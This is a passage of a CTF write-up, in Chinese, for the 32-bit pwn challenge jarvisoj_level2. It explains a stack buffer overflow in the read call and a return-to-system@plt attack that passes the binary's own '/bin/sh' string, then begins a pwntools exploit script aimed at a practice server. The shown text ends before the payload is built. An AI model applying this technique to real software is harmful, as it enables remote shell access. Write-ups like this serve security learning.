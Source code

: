 
# jarvisoj_level2

## Information

- Category: Pwn
- Points: 1

## Write-up

```c del={6}
ssize_t vulnerable_function()
{
  _BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 256u);
}
```

观察上面程序，`read` 可以溢出破坏返回地址。由于这是 32-bit 程序，函数参数通过栈来传递，所以我们可以覆盖返回地址为 `system@plt`，然后在栈上写传给 `system` 的参数。

我们希望拿 `shell`，直接 IDA `Shift + F12` 看程序包含的字符串，发现有 `.data:0804A024 hint db '/bin/sh',0`，那么参数问题就解决了，因为没开 PIE，直接就是固定地址。

需要注意的是，如果你返回到 `call system@plt` 这样的内部指令，由于 `call` 指令会自动将下一条指令的地址压入栈中，作为函数调用结束后的返回地址，所以你可以直接在它之后写要传入的参数；而如果选择返回到 `system@plt`，那就需要手动提供一个地址作为函数调用结束后的返回地址，之后才是跟着函数的参数。

即，`call` 指令可以分解为 `push eip_next; jmp <entry>`，而返回到 `system@plt` 相当于直接 `jmp system@plt`，没有设置返回地址。

## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, process, remote

gdbscript = """
set follow-fork-mode parent
b *vulnerable_function+42
b *vulnerable_function+52
c
"""

FILE = "./level2"
HOST, PORT = "node5.buuoj.cn", 25976

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
```